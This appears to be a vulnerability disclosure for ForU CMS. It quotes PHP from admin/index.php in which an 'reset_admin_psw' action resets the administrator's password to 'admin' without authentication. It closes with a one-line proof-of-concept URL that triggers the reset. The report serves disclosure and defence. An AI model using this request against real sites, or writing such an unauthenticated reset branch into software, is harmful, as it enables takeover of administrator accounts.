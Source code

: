 ForU CMS index.php Arbitrary Administrator Password Reset
downlaod:https://gitee.com/sw1981/ForU-CMS
version:dev Official version

I have found the following controller in admin/index.php:
```php
switch ($act) {
  case 'clearUploadfile':
    clearUploadfile();
  break;

  case 'welcome':
    href('cms_welcome.php');
  break;

  case 'logout':
    userLogout('cms_login.php');
  break;

  case 'baiduSend':
    // 生成数组数据
    $y = date("Y");
    $m = date("m");
    $d = date("d");
    $days = mktime(0, 0, 0, $m, $d, $y);
    $daye = mktime(23, 59, 59, $m, $d, $y);
    getDetailBaiduSend($days, $daye);
  break;

  // reset admin password
  case 'reset_admin_psw':
    $psw = psw_hash('admin');
    $sql = "UPDATE user SET u_psw = '$psw' WHERE id = 1";
    $db->query($sql);
    echo $psw;
  break;
```
The branch reset_admin_psw resets the administrator's password directly without authentication.
poc:
```url
http://127.0.0.1:8002/admin/index.php?act=reset_admin_psw
```
![img.png](img.png)